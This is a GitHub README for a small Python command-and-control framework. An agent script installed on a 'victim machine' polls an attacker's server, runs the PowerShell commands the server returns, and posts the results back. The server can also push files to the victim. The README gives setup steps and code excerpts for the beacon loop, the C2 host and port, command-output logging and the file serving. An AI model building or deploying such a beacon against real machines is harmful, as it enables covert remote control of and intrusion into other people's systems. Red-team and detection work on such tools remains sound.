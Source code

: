 # pyc2-c2overPOSTresponse

This project is still under development. This is a simple C2 framework that allows you to run Powershell commands in HTTP responses. 

It works as follows: 
- Run server.py to start a http server
- Run agent.py to send a POST request
- The server sesponds to the request with a powershell command that is ran by agent.py
- agent.py sends another POST request after the specified time with the command response
- I am working on a mechanism to allow the attacker to send a different response but for now it's a loop

The framework also alows the attacker to upload a file to the victim by sending a powershell command that would sends a HTTP GET request to the server. e.g., wget

## Installation

Download the .py files and run them. 

## Usage

### Configure Agent.py

Agent.py needs to be installed and ran on the victim machine. Provide the C2 url as shown below.

```
    url = "http://localhost:8080"  # Replace your C2 URL

```

The http requests are sent in time intervals. You can set this in Agent.py as well. 

```
output = 'No command Ran'
    while True:
        command_to_run = http_sender(output)
        if command_to_run:
            output = run_powershell_command(command_to_run) 
        # Sleep for a specified ammount of time (10 seconds) before sending the next request   
        time.sleep(10)  
        count =+ 1
```

Each HTTP POST request will require you to enter a desired command from the server side that will be sent in the HTTP response message body

### Configure Server.py

Configure the host and port you wish to run the C2 server on 

```
host = "localhost"
port = 8080
```
Specify where you want to save the command output logs

```
        # Append the message body to a text file
        with open('received_messages.txt', 'a') as file:
            file.write(message_body + '\n')
```

Specify the directory of the file you would like to upload using HTTP GET

```
       def do_GET(self):
        # Define the path of the file you would like to upload to the victim machine
        file_path = "path/to/your/file.txt"
```

## Summarized UML Sequence Diagram 

<img width="465" alt="image" src="https://github.com/dewardvide/pyc2-c2overPOSTresponse/assets/91884298/ff5801a8-8a8f-4f92-af0e-44bffb69c7f5">

## Contributing

Pull requests are welcome. For major changes, please open an issue first
to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License

[MIT](https://choosealicense.com/licenses/mit/)
